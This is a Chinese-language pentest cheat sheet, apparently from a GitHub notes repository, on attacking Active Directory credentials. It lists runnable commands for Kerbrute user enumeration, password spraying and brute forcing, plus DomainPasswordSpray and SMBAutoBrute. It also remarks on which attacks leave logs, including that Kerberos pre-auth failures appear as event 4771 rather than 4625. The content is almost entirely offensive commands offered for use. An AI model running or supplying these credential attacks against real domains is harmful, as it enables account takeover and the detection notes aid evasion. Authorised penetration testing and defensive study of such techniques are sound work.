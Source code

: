   ### Kerbrute
	https://github.com/ropnop/kerbrute
	用户枚举
	>kerbrute_windows_amd64.exe userenum -d zone.com username.txt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/371.png)

	密码喷射
	>kerbrute_windows_amd64.exe passwordspray -d zone.com use.txt password
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/372.png)

	密码爆破
	此项会产生日志
	>kerbrute_windows_amd64.exe bruteuser -d zone.com pass.txt name
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/373.png)

	组合爆破
	格式为username:password
	>kerbrute_windows_amd64.exe -d zone.com bruteforce com.txt
  ### DomainPasswordSpray
	https://github.com/dafthack/DomainPasswordSpray
	自动收集账户进行密码喷射
	>Invoke-DomainPasswordSpray -Password pass
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/374.png)

	组合爆破
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -PasswordList passlist.txt -OutFile result.txt
	会产生日志
	单密码
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -Password password
  ### SMBAutoBrute
  	https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1
	>Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ### Kerberos 预授权暴力破解
  	Kerberos 预身份验证错误不会以正常登录失败事件 (4625)记录在 Active Directory 中，而是以特定日志记录到Kerberos 预身份验证失败 (4771)
	用户名爆破
	>./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
	密码爆破
	>./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
	密码喷射
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
